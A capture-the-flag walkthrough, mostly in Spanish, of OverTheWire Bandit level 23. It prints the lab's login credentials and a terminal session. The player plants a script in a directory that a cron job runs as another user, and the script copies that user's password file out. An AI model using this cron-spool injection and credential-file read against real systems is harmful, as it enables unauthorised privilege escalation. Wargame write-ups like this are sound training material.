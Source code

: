 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso

-   Username: bandit23
-   Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
-   Host: bandit.labs.overthewire.org
-   Port: 2220

## Solución

```bash()
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$  cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$  cd /tmp/kd
bandit23@bandit:/tmp/kd$  echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh 
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$  touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$  ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ date
Tue Feb 28 06:26:35 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$ exit
```

## Notas adicionales

Para poder realizar este nivel, podemos ver que tenemos un archivo llamado 'cronjob_bandit24.sh', este archivo toma todos los archivos de la ruta /var/spool/bandit24/foo y los ejecuta, por lo que le inyectaremos un comando en forma de archivo, que nos muestre la contraseña del nivel 24.

## Referencias

https://ingsoftware.reduaz.mx/moodle/pluginfile.php/68464/mod_resource/content/2/06-retos-bandit-p3.pdf